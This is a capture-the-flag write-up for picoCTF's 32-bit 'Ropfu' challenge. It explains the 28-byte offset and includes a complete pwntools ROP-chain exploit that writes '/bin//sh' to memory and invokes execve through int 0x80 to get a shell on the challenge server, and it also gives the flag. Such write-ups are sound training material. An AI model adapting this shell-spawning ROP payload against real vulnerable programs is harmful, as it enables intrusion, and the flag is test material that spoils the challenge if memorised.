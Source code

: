 # Ropfu
 
## Challenge Description: What's ROP?

From the name of this challenge, it was pretty clear that ROP was needed to solve the challenge. Interestingly, the binary supplied was **32 bit** instead of **64 bit** in challenges that I've done before. Stitching the gadgets would be slightly different since 32 bit programs generally store their function parameters on the stack instead of the registers for 64 bit.

To solve the challenge, I performed the following: 
* Determined the offset of **28** from GEF
* Referred to this article on using **ROPGgadget**
* Used **--ropchain** from **ROPGgadget** to generated the payload 
* Made the following adjustments for a payload originally meant for *python2*
  * Imported python3's **pwn** library instead of python2's **struct**
  * Replaced **pack('<I', 0x080583c9)** with **p32(0x080583c9)**

The final payload is as follows: 
  
```python
from pwn import *

e = context.binary = ELF('./vuln', checksec=False)
r = remote('saturn.picoctf.net',56464)

offset = 28
p = b"A" * offset
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'/bin'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5064) # @ .data + 4
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'//sh'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x41414141) # padding
p += p32(0x0804fb90) # xor eax, eax ; ret
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x08049022) # pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x08049e39) # pop ecx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080e5060) # padding without overwrite ebx
p += p32(0x0804fb90) # xor eax, eax ; ret

# eax needs to be incremented to 11 for the execve syscall
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret

# Invoke a system call and execute our code
p += p32(0x0804a3d2) # int 0x80

r.sendline(p)
r.interactive()
```

Running the payload above produced the flag.


FLAG: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`

